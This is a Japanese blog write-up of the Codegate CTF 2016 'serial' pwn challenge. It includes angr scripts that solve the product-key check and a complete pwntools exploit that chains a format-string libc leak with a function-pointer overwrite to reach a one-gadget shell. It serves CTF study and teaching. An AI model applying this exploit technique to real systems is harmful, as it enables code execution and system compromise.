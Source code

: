 ```yaml
---
layout: post
alias: "/blog/2016/10/23/codegate-ctf-2016-serial/"
date: "2016-10-23T00:50:29+09:00"
title: "Codegate CTF 2016 : serial"
tags: [ "ctf", "codegate-ctf", "pwn", "angr" ]
"target_url": [ "https://github.com/ctfs/write-ups-2016/tree/master/codegate-ctf-2016/pwn/serial-444" ]
---
```


## problem

``` sh
$ file ./serial
./serial: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=178aaa6576923592e7fc8534fd8cb21d5f6c5cdb, stripped

$ ./serial
input product key: 615066814080
Correct!
Smash me!
1. Add 2. Remove 3. Dump 4. Quit
choice >> 1
insert >> hoge
Smash me!
1. Add 2. Remove 3. Dump 4. Quit
choice >> 1
insert >> fuga
Smash me!
1. Add 2. Remove 3. Dump 4. Quit
choice >> 3
func : 0x40096e
0. hoge
1. fuga
Smash me!
1. Add 2. Remove 3. Dump 4. Quit
choice >> 4
bye
```

## solution

まず最初に`input product key: `と聞かれる。
angrで殴れば倒せる。この部分は後に効いてこないので忘れてよい。

note管理系のプログラム。
heap上に以下の配列が確保される。chunkそのものもoverflowしているが、他に`malloc`も`free`もないのでここは攻撃不可能。

``` c
struct note_t {
    char content[0x18]; // 0x0
    void (*func)(node_t *) ; // 0x18
}; // 0x20
```

`1. Add`で`content`にoverflowがあり、自身の`func`を書き換えられる。
`3. Dump`で先頭noteの`func`が呼ばれるので、fsaから適当にすればよい。
主なbofはheap上なので`printf`の引数が問題だが、`choice >> `で読んだときのごみがstackに残っているので利用できるし、`argv[0]`あたりも使える。

## implementation

### product key (愚直)

最低限の`find`/`avoid`のみを指定した場合。
$10$分ぐらいかかるが解は出る。

``` python
#!/usr/bin/env python2
import angr

number_only = 0x400d22
wrong = 0x400e78
correct = 0x400e5c

p = angr.Project("./serial")
state = p.factory.entry_state()
pathgroup = p.factory.path_group(state)
pathgroup.explore(find=(correct, ), avoid=(number_only, wrong))

for path in pathgroup.found:
    print 'found', path
    print repr(path.state.posix.dumps(1))
    print repr(path.state.posix.dumps(0))
```

### product key (まとも)

入力を直接メモリに載せ、目的の関数のみを直接実行する場合。
$3$秒で終わる。

``` python
#!/usr/bin/env python2
import angr

key_length = 12
check_function = 0x400cbb
address = 0x602000 + 0x900
number_only = 0x400d22
wrong = 0x400e78
correct = 0x400e5c

p = angr.Project("./serial")
state = p.factory.blank_state(addr=check_function)
key = state.se.BVS(name="key", size=key_length*8)
state.memory.store(address, key)
state.regs.rdi = address
pathgroup = p.factory.path_group(state)
pathgroup.explore(find=(correct, ), avoid=(number_only, wrong))

for path in pathgroup.found:
    print repr(path.state.se.any_str(key))
```

### shell

思考停止してone-gadget RCE投げ込むの、悪影響ありそう。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
args = parser.parse_args()
context.log_level = 'debug'

elf = ELF('./serial')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = process('./serial')

p.recvuntil('input product key: ')
p.sendline('615066814080')

def add(s):
    p.recvuntil('choice >> ')
    p.sendline('1')
    p.recvuntil('insert >> ')
    p.send(s)
def remove(i):
    p.recvuntil('choice >> ')
    p.sendline('2')
    p.recvuntil('choice>> ')
    p.sendline(str(i))
def dump(tail='', result=True):
    p.recvuntil('choice >> ')
    p.sendline('3' + tail)
    if result:
        assert p.recvline().startswith('func : ')
        return p.recvuntil('Smash me!\n', drop=True)

# format-string attack
add('%13$s'.ljust(0x18, ' ') + p64(elf.plt['printf']).rstrip('\0') + '\n')
t = dump(' ' * 7 + p64(elf.got['setvbuf']))
remove(0)
setvbuf = u64(t.split('    ')[0].ljust(8, '\0'))
libc_base = setvbuf - libc.symbols['setvbuf']
log.info('libc base: %#x', libc_base)

# one-gadget RCE on Ubuntu 16.04
add(' ' * 0x18 + p64(libc_base + 0xf0897).rstrip('\0') + '\n')
dump(result=False)

time.sleep(1)
p.sendline('id')
p.interactive()
```
